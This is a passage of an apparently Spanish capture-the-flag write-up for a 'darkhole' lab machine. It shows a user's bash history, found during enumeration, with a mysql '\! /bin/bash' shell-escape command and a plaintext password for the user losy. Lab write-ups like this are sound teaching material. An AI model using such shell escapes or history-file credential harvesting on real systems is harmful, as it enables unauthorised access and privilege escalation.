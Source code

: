 Ahora podremos leer la flag de usuario. Si seguimos enumerando, al igual que antes, podremos encontrar datos en nuestro historial de comandos de usuario.

```bash
losy@darkhole:~$ cat .bash_history                                                                                                                                                           
cd .ssh/                                                                                                                                                                                     
chmod 666 id_rsa                                                                                                                                                                             
php -S localhost:9999                                                                                                                                                                        
clear                                                                                                                                                                                        
sudo su                                                                                                                                                                                      
su lama                                                                                                                                                                                      
clear                                                                                                                                                                                        
ls -la                                                                                                                                                                                       
cat /etc/crontab                                                                                                                                                                             
su lama                                                                                                                                                                                      
mkdir web                                                                                                                                                                                    
ls -la                                                                                                                                                                                       
su lama                                                                                                                                                                                      
ls                                                                                                                                                                                           
touch index.php                                                                                                                                                                              
cd ..                                                                                                                                                                                        
ls                                                                                                                                                                                           
ls -la                                                                                                                                                                                       
sudo su                                                                                                                                                                                      
c                                                                                                                                                                                            
clear                                                                                                                                                                                        
su lama                                                                                                                                                                                      
clear                                                                                                                                                                                        
su lama                                                                                                                                                                                      
mysql -e '\! /bin/bash'                                                                                                                                                                      
mysql -u root -p -e '\! /bin/bash'
P0assw0rd losy:gang
```
